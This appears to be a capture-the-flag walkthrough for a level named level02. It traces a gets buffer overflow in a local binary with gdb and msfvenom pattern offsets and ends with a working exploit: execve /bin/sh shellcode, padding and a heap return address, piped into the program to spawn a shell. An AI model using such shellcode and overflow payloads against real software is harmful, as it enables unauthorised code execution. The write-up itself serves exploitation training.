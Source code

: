 # level02

## Disassembled code  
`gdb -batch -ex "set disassembly-flavor intel" -ex "disas main" -ex "disas p" "level2" | GREP_COLOR='01;33' grep  --color=always -z '+36\|+39\|+44\|+49' | GREP_COLOR='01;32' grep --color=always -z '+51\|+56\|+59\|+63\|+66\|+71\|+78' | GREP_COLOR='01;31' grep -z '+83\|+86\|+89\|+89\|+94\|+97\|+100\|+105\|+106'`  
![alt IMAGE] (Ressources/disassembled.png)  
  
  
##walkthrough  
At *p+25, we can see a call to the gets function, we can use another way to enter manualy the value when we come to this instruction. We'll use the '<<<' redirection at the binary argument to enter the gets value.
  
At *p+36 we can see we move the [ebp-0xc] value in eax, [ebp-0xc] represents the 4 bytes from the 80th that we passed to GETS, we can see below:  
  
![alt IMAGE] (Ressources/p_36_value_ebp_0xc.png)  

We have find this offset with msfvenom and pattern\_offset tools like the two pictures below:  
  
Generate pattern with msfvenom:  
![alt IMAGE] (Ressources/msf_venom_p_36.png)  
  
We can see at the 0xffffd08c address ($ebp-0xc) we have the pattern (0x37634136) for get the offset with the pattern\_offset tool:  
  
![alt IMAGE] (Ressources/p_36_pattern_offset_tool.png)  
  
At *p+39, we can see the *and* operator, it keep just equal bits to both operands. In our case wedo not have to have a *b* in first bit, because the program don't segfault in this case.

![alt IMAGE] (Ressources/info_proc_all.png)  
  
That's a shame, because we have our 80 bytes are on the stack and the stack addres beginng by 0xb, you can show this *0x41* bytes:  
  
![alt IMAGE] (Ressources/stack_bytes.png)  
  
we can see at *p+100 strdup is called with our payload in argument  
  
![alt IMAGE] (Ressources/p_100_strdup_args.png)  
  
strdup return a string on the heap, we can show that on the return register (eax).

![alt IMAGE] (Ressources/p_105_strdup_return.png)  
  
We can see It's not a 0xb address, we can put a payload here  
  
I was get a payload on [shellstorm](http://shell-storm.org/shellcode/files/shellcode-841.php)
  
Let's test this on gdb:  
`(gdb) r <<< $(python -c "print  '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'A' * (80 - 21) + '\x08\xa0\x04\x08'")`  
  
![alt IMAGE] (Ressources/exploit_with_gdb.png)

Ok, /bin/dash is started on gdb and exit directly, we can use this command to get the level3 right:
`(python -c "print  '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'A' * (80 - 21) + '\x08\xa0\x04\x08'";cat) | ./level2`
  
![alt IMAGE] (Ressources/finish.png)
